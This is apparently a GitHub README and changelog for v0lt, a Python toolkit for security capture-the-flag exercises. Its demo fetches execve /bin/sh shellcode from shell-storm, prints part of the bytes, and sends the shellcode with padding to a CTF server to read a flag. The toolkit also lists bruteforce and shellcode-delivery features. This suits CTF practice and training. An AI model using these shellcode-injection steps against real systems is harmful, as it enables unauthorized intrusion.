 ![v0lt](https://raw.githubusercontent.com/P1kachu/v0lt/master/v0lt/assets/v0lt.png)

v0lt
====

v0lt is an attempt to regroup every tool I used/use/will use in security CTF, Python style. 
A lot of exercises were solved using bash scripts but Python may be more flexible, that's why.    

##Requirements and Installation    
####Dependencies:   
* Libmagic
* Python3    
  * BeautifulSoup    
  * Requests    
  * filemagic    
  * hexdump    

####Installation:   
```Bash
# for v0lt install
git clone https://github.com/P1kachu/v0lt.git     
cd v0lt    
[sudo] python3 setup.py install # sudo is required for potentially missing dependencies
```

##Demo: Shellcodes
```Python
>>> from v0lt import *
>>> nc = Netcat("archpichu.ddns.net", 65102)
Connected to port 65102
>>> print(nc.read())
GIVE ME SHELLCODZ
>>> shellhack = ShellHack(4096, "bin","execve")
>>> shellhack.get_shellcodes(shellhack.keywords)

.
.
.
85: Linux/x86:setuid(0) & execve(/sbin/poweroff -f) - 47 bytes
86: Linux/x86:execve (/bin/sh) - 21 Bytes
87: Linux/x86:break chroot execve /bin/sh - 80 bytes
88: Linux/x86:execve(/bin/sh,0,0) - 21 bytes
.
.
.

Selection: 86
Your choice: http://shell-storm.org/shellcode/files/shellcode-752.php
Shellcode: "\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62[...]"

>>> nc.shellcat(shellhack.shellcode)
>>> nc.writeln(shellhack.pad())
>>> exploit = nc.dialogue("cat flag", 3)
>>> print(exploit)
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA:
File name too long
P1kaCTF{sh3llc0de_1s_e4zY}
```
##Implemented:    
* Crypto    
    * Base64    
    * Ceasar shift    
    * Hashing functions (SHA, MD5)    
    * Bits manipulations (XOR, inverse XOR)    
    * Usual conversions (bytes, strings, hex)    
    * RSA basics (inverse modulo, inverse power, egcd...)
    * Bruteforcing

* Shellcodes    
    * Shellcode selection and download from Shell-storm repo    
    * Shellcode formater 
    * Shell{cat,net}: Sending shellcode made easy
    * Automatic padding

* Easy connection support    
    * Netcat    
    * Telnet    

And more


# Changelog

Only includes major features and changes. Bugfixes and
minor changes are omitted.

## 1.2

- Lots of documentation/bugs/framework fixes
- Added bruteforce
- Added linux utils
- Began hexeditor
- Shellhack fixes
- Alert messages

## 1.0

- Lots of documentation fixes
- Lots of bugfixes
- Added shellhack (shellcodes stuff)
- Added crypto utils
- Added network utils
- Fixed project tree
